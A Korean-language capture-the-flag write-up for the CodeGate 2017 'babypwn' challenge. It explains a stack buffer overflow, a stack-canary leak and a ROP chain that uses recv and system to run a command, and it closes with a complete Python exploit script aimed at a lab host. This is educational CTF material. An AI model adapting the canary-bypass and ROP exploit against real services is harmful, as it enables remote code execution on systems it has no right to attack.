 # babypwn
### CodeGate 2017
***babypwn은 코드게이트 2017 예선에 출제된 문제입니다.***

babypwn을 처음 실행하면, 아래 그림과 같이 CodeGate!라는 말과 함께 3가지의 선택지가 나옵니다.

![Alt text](https://github.com/Funniest/System-study/blob/master/babypwn/img/Stack.PNG)

여기서 취약한 곳을 정리하여 보겠습니다. (위, 아래 그림 참조)

![Alt text](https://github.com/Funniest/System-study/blob/master/babypwn/img/Vuln.PNG)

sub esp, 50 -> 0x50만큼 버퍼 생성

[ebp+var_34] -> 입력 버퍼

[ebp+var_c] -> 더미(?)

Stack_check가 있는 것으로 보아 더미 중간에canary(4byte)가 존재

취약한 함수 = call sub_8048907

buf의 크기는 총 0x34(52) + SFP = (56)인데, 입력은 0x64(100)만큼 받습니다.

└ recv(fd, buf, 0x64, 0)

즉 오버플로우가 일어나게 됩니다.

이제 익스플로잇에 필요한 가젯들을 정리해 보면,
```
1. Canary 카나리
2. recv_plt, recv_got
3. ppppr
4. system_plt
5. ppppr
6. bss영역
```
이 필요합니다.

익스플로잇 순서는
```
1. canary를 leak합니다.
2. 익스플로잇에 필요한 가젯들을 구합니다.
3. 구한 가젯들을 조합해서 페이로드를 작성합니다.
 
 └ recv_plt를 이용하여 bss영역에 실행하고 싶은 명령어를 씁니다.
 
 └ system_plt에 bss영역을 인자를 주어 명령어를 실행합니다.
```
### 소스코드
Ubuntu 16 LTS 32bit 환경에서 테스팅 해보았습니다.

```
from socket import *
from struct import *
from time import *

p = lambda x: pack("<L", x)
up = lambda x : unpack("<L", x)[0]

def sendline(s, string) :
    s.send(string + '\n')

s = socket(AF_INET, SOCK_STREAM)
s.connect(('192.168.228.138', 8181))

print "[+]step01 get canary"
print s.recv(2048)

sendline(s, '1')
print s.recv(1024)

'''
#canary
payload = ''
payload += 'A' * 41 #buffer[40] + canary[1] <= 0x00
s.send(payload)

print s.recv(1024)
print s.recv(41)
canary = "\x00"
canary += s.recv(3)
canary = up(canary)

print "Canary : " + str(hex(canary))
'''

canary = 0x12e5ca00
send_plt = 0x8048700
send_got = 0x804B064
recv_plt = 0x80486E0
recv_got = 0x804B05C
bss = 0x804b1b4
ppppr = 0x8048eec
system_plt = 0x8048620

cmd = 'ls -al'

payload = ''
payload += 'A' * 40
payload += p(canary)
payload += 'B' * 12

payload += p(recv_plt)
payload += p(ppppr)
payload += p(0x04)
payload += p(bss)
payload += p(len(cmd))
payload += p(0x00)
payload += p(system_plt)
payload += p(0x41414141)
payload += p(bss)

s.send(payload)

print s.recv(1024)
sendline(s, '3')

sendline(s, cmd)
print s.recv(1024)
s.close()
```
